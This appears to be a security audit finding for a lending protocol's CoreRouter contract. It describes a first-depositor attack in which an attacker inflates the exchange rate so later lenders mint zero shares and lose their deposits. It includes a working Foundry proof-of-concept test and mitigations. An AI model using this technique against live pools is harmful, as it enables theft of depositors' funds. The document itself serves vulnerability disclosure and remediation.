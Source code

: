 Dandy Fiery Alligator

High

# [H-02] -- First depositor can artificially inflate the exchange rate and steal subsequent deposits

### Summary

The first depositor in a pool can deposit the minimum amount of a token necessary to mint 1 `lToken`. They can then send a large amount of the token directly to the `lToken` address and artificially inflate `exchangeRateBefore` which causes future deposits from unsuspecting lenders to mint 0 `lTokens`. The attacker can then redeem their `lTokens` and receive all their funds (including their large send) and the lenders deposit. 

### Root Cause

Line 74 of `CoreRouter::redeem` retrieves `exchangeRateBefore` which has been artificially inflated by the attacker.

Line 80 of `CoreRouter::redeem` takes the `amount` submitted by the depositor, multiplies it by a `1e18` scalar and divides it by `exchangeRateBefore`. The issue is that since `exchangeRateBefore` has been so inflated, this value will evaluate to 0 and not credit the lender with any `lTokens` in their `totalInvestment`. 

The protocol also does not enforce a minimum deposit value or initialize the contract with initial liquidity to prevent such an attack.

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L61-L92

### Internal Pre-conditions

1. The pool must have no previous depositors. This attack is valid for new pools that don't have an established exchange rate.

### External Pre-conditions

N/A

### Attack Path

1. An attacker calls `CoreRouter::supply` with the minimum amount of tokens necessary to mint 1 `lToken`. For the example provided this is `2e8` worth of a token since the `exchangeRateInternal` mantissa is `2e26`. (2e8 * 1e18) / 2e26 = 1.

2. The attacker then directly sends tokens to the `lToken` contract such that the exchange rate will be artificially inflated so that the next depositor will end up minting 0 shares of the `lToken`.

3. The lender deposits and ends up receiving 0 shares because the exchange rate.

4. The attacker calls `CoreRouter::redeem` to redeem their `lToken` and withdraw all the funds from the pool: their initial deposit, their funds they sent, and the lenders deposit. 

### Impact

A lender depositing subsequent to the attacker could lose 100% of their deposit value. In the coded POC, I show an example of a lender losing 50e18 (50 tokens) worth of a deposit. Depending on the token, that could be a substantial amount of nominal value. Empty pool type attacks in the past have resulted in millions to hundred of millions of dollars in losses depending on the preconditions and sophistication of the attacker. 

### PoC

The below script `TestFirstDepositor.t.sol` outlines the attack path and displays an attacker stealing 50 tokens worth of a deposit by a lender after artificially inflating the exchange rate. Place the script in a folder called `poc` in the `test` section and run `forge test --match-test test_first_depositor -vvv` to see the output logs.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {Test, console} from "forge-std/Test.sol";
import {Deploy} from "../../script/Deploy.s.sol";
import {HelperConfig} from "../../script/HelperConfig.s.sol";
import {CrossChainRouterMock} from "../mocks/CrossChainRouterMock.sol";
import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {LendStorage} from "../../src/LayerZero/LendStorage.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
import {Lendtroller} from "../../src/Lendtroller.sol";
import {InterestRateModel} from "../../src/InterestRateModel.sol";
import {SimplePriceOracle} from "../../src/SimplePriceOracle.sol";
import {LTokenInterface} from "../../src/LTokenInterfaces.sol";
import {LToken} from "../../src/LToken.sol";
import "@layerzerolabs/lz-evm-oapp-v2/test/TestHelper.sol";

contract TestFirstDepositor is Test {
    HelperConfig public helperConfig;
    address public layerZeroEndpoint;
    address[] public supportedTokens;
    bool public isTestnet;
    address public deployer;
    address public attacker;
    address public lender;

    CrossChainRouterMock public router;
    LendStorage public lendStorage;
    CoreRouter public coreRouter;
    Lendtroller public lendtroller;
    InterestRateModel public interestRateModel;
    SimplePriceOracle public priceOracle;

    TestHelper public testHelper;

    address[] public lTokens;

    // Events to test
    event BorrowSuccess(address indexed borrower, address indexed lToken, uint256 accountBorrow);

    function setUp() public {
        deployer = makeAddr("deployer");
        attacker = makeAddr("attacker");
        lender = makeAddr("lender");

        // Deploy the entire protocol
        Deploy deploy = new Deploy();
        (
            address priceOracleAddress,
            address lendtrollerAddress,
            address interestRateModelAddress,
            address[] memory lTokenAddresses,
            address payable routerAddress,
            address payable coreRouterAddress,
            address lendStorageAddress,
            address _layerZeroEndpoint,
            address[] memory _supportedTokens
        ) = deploy.run();

        // Store the values in contract state variables
        router = CrossChainRouterMock(routerAddress);
        lendStorage = LendStorage(lendStorageAddress);
        coreRouter = CoreRouter(coreRouterAddress);
        lendtroller = Lendtroller(lendtrollerAddress);
        interestRateModel = InterestRateModel(interestRateModelAddress);
        priceOracle = SimplePriceOracle(priceOracleAddress);
        lTokens = lTokenAddresses;
        layerZeroEndpoint = _layerZeroEndpoint;
        supportedTokens = _supportedTokens;

        testHelper = TestHelper(payable(layerZeroEndpoint));

        // Set up initial prices for supported tokens
        for (uint256 i = 0; i < supportedTokens.length; i++) {
            priceOracle.setDirectPrice(supportedTokens[i], 1e18);
        }
    }

    // Helper function to supply tokens before testing borrowing
    function _supply(uint256 amount) internal returns (address token, address lToken) {
        token = supportedTokens[0];
        lToken = lendStorage.underlyingTolToken(token);

        vm.startPrank(attacker);
        ERC20Mock(token).mint(attacker, amount);
        IERC20(token).approve(address(coreRouter), amount);
        coreRouter.supply(amount, token);
        vm.stopPrank();
    }

    function test_first_depositor() public {
        _supply(200000000);
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);
        ERC20Mock(token).mint(attacker, 1000 ether);
        vm.startPrank(attacker);
        IERC20(token).transfer(address(lToken), 1000 ether);
        vm.stopPrank();

        vm.startPrank(lender);
        ERC20Mock(token).mint(lender, 50 ether);
        IERC20(token).approve(address(coreRouter), 50 ether);
        coreRouter.supply(50 ether, token);
        vm.stopPrank();

        uint256 lender_lTokenBalance = lendStorage.totalInvestment(lender, lToken);
        console.log("L Token Lender Balance: ", lender_lTokenBalance);

        vm.startPrank(attacker);
        uint256 lTokenBalanceToRedeem = lendStorage.totalInvestment(attacker, lToken);
        coreRouter.redeem(lTokenBalanceToRedeem, payable(lToken));
        vm.stopPrank();

        console.log("Attacker Token Balance: ", IERC20(token).balanceOf(attacker));
        console.log("Lender Token Balance: ", IERC20(token).balanceOf(lender));
    }
}
```

### Mitigation

1. Enforce a minimum deposit amount in `CoreRouter::supply` so that the exchange rate cannot be artificially inflated

2. Upon deployment/initialization of the pools, the protocol should immediately mint protocol owned shares to set an exchange rate. Take care that these cannot be front run by an attacker. 